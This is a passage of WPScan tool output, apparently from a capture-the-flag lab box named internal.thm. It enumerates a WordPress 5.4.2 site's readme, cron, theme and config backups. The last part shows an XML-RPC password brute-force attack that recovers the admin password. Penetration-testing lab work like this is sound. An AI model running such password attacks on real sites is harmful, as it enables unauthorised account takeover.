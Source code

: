 ```
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://internal.thm/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://internal.thm/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://internal.thm/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:06 <=======================================================================================> (137 / 137) 100.00% Time: 00:00:06
                                                                                                                                                                      
[i] No Config Backups Found.                                                                                                                                          

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                           
Trying admin / my2boys Time: 00:06:08 <                                                                                      > (3885 / 14348277)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```